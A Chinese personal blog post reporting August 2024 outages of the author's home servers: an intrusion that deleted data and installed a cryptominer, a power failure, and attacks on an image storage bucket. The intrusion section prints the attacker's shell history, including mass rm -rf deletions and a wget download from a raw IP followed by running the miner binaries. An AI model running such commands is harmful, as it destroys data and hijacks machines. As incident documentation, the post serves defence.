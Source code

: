 ```yaml
---
title: 服务崩溃报告
date: 2024-08-30 18:32:39
updated: 2024-08-30 18:32:39
tags: 公告
description: 如题
categories: 技术类
---
```




8月中旬，我在学校尝试远程回家的时候发现出了点意外，没想到是出了点大问题啊，简单记录一下

在以后有什么大规模的崩溃也会记录在这里（但愿不要再写下去{% emoji blobcat blobcatsipsweat %}



## 2024/8

在8月15日下午1点，家里`ikuai-kvm`节点被入侵，执行到的相关命令如下

```bash
  338  free
  339  top
  340  ps aux
  341  apt remove sendmail* docker* container*
  342  ps aux
  343  cd /home
  344  ls
  345  rm -rf *
  346  cd /
  347  ls
  348  rm -rf www
  349  cd /etc/systemd/system
  350  ls
  351  ps aux
  352  ls
  353  rm -rf cloud* db* ddn* nez* mcsm*
  354  ls
  355  cd multi*
  356  ls
  357  rm -rf cloud* db* ddn* nez* mcsm*
  358  ls
  359  rm -rf cont* docker* tail* x-ui*
  360  cd /usr/local
  361  ls
  362  rm -rf x*
  363  rm -rf bt*
  364  cd
  365  ls
  366  w
  367  rm -rf *
  368  reboot
  369  free
  370  ps aux
  371  ls
  372  netstat -lntu
  373  ping 8.8.8.8
  374  yum install msr-tools
  375  apt install msr-tools
  376  apt autoremove
  377  ls
  378  nproc
  379  mkdir .sys
  380  cd .sys
  381  wget http://54.71.19.189:8088/x.tar
  382  tar xzvf x.tar
  383  ./hash
  384  ./s
  385  exit
```



后面就是挖矿病毒了，不是哥们你挖矿就挖矿，你还删我东西啊。他甚至名称都不舍得给我打全，用通配符来替代

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161032128.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161032128.png image-20240831161032128 %}

我当时在学校临时将路由后台映射	切换到另一台服务器下，进到后台后看到路由器cpu温度有70多度，我就知道事情不简单

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_21-43-29.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_21-43-29.png Snipaste_2024-08-30_21-43-29 %}

在`Aug 16, 5:34 AM GMT+8`时完全下线

**影响范围**：图片分发节点，mc服务器官网，图床，Gitea，大量私有服务（无法统计）

**补充**：由于由于图床需要将远程云盘目录映射到本地，同时我也测试镜像站在该服务器的部署，导致在执行清删除操作时同步清除了云盘中挂载的所有内容，合计1405个文件，已恢复

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161146700.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831161146700.png image-20240831161146700 %}

**分析**：包是宝塔了，我另一台在香港的服务器之前用宝塔直接被菠菜网站修改好几回nginx配置，现在三台服务器就这一台还是用着宝塔没有迁移了，里面的服务大多是docker虚拟化的，直接部署的也都是开源的程序，基本不会引进病毒，唯一可能的后门最严重的只剩下这个宝塔了。作为对比啊，我内网下另一台服务器用的是1panel，一点事没有。

**灾难恢复**：由于并没有妥善的统计内网下的服务，因此想完整恢复有点困难，但主要业务相关端口均有记录在tailscale，可以起一定参考作用

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/image-20240831141247847.png image-20240831141247847 %}

**措施**： 迁移图床到`hk-tt`（丢失图床数据），启用ipv6防火墙

**已恢复**：图片分发节点，ZTale，bluemap，mcsm





在8月21号，家里面线路泡水短路，总闸跳了。此外由于故障时间过长，ups干没电了，导致`MC-SERVER`BIOS数据丢失（CMOS电池那部分线路坏了）来电重启后无法从正确的硬盘引导启动，已修复

**影响范围**：mc服务器，部分私有服务

**状态**：已恢复



在8月13号及往后，位于缤纷云的图片储存桶不时遭到攻击，由于我设置了严苛的访问政策，只造成3.12元的损失

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-29.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-29.png Snipaste_2024-08-30_17-47-29 %}

{% image https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-35.png?fmt=avif download:https://onep.hzchu.top/mount/pic/myself/2024/08/Snipaste_2024-08-30_17-47-35.png Snipaste_2024-08-30_17-47-35 %}

**影响范围**：博客首页文章图片，友链头像图片

**措施**：文章封面迁移到自建图床，友链图片并入博客文件
